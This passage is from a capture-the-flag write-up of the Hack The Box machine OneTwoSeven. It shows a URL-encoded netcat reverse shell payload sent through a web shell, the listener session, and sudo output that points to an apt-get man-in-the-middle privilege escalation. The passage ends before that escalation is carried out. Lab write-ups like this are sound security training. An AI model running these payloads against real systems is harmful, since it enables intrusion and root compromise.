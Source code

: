 Time to get a shell with a standard netcat reverse shell. I URL encoded the payload to avoid any issue: `GET 127.0.0.1:60080/addons/snowscan.php?cmd=rm %2ftmp%2ff%3bmkfifo %2ftmp%2ff%3bcat %2ftmp%2ff|%2fbin%2fsh -i 2>%261|nc 10.10.14.23 4444 >%2ftmp%2ff`

```
root@ragingunicorn:~/htb/onetwoseven# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:41952.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=35(www-admin-data) gid=35(www-admin-data) groups=35(www-admin-data)
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-admin-data@onetwoseven:/var/www/html-admin/addons$ ^Z
[1]+  Stopped                 nc -lvnp 4444
root@ragingunicorn:~/htb/onetwoseven# stty raw -echo
fg
www-admin-data@onetwoseven:/var/www/html-admin/addons
```

### Priv esc using apt-get MITM

I see that `www-admin-data` can run `apt-get` as root without any password:

```
www-admin-data@onetwoseven:/$ sudo -l
Matching Defaults entries for www-admin-data on onetwoseven:
    env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
    mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```

The box is running Devuan Linux, a Linux distro for hipsters who don't like systemd. Interestingly, there are two different apt sources configured:

```
www-admin-data@onetwoseven:/$ ls -l /etc/apt/sources.list.d
total 8
-rw-r--r-- 1 root root 211 Feb 15 17:22 devuan.list
-rw-r--r-- 1 root root 102 Feb 15 17:22 onetwoseven.list

www-admin-data@onetwoseven:/$ cat /etc/apt/sources.list.d/onetwoseven.list
# OneTwoSeven special packages - not yet in use
deb http://packages.onetwoseven.htb/devuan ascii main
```

It's pretty clear here that I need to do some kind of Man-In-The-Middle (MITM) attack on the apt upgrade process.

I did some googling and found a nice blog explaining how to perform the MITM attack on apt-get: [https://versprite.com/blog/apt-mitm-package-injection/](https://versprite.com/blog/apt-mitm-package-injection/). I'm not gonna rehash the entire blog article here, but the main elements of my attack are shown below.
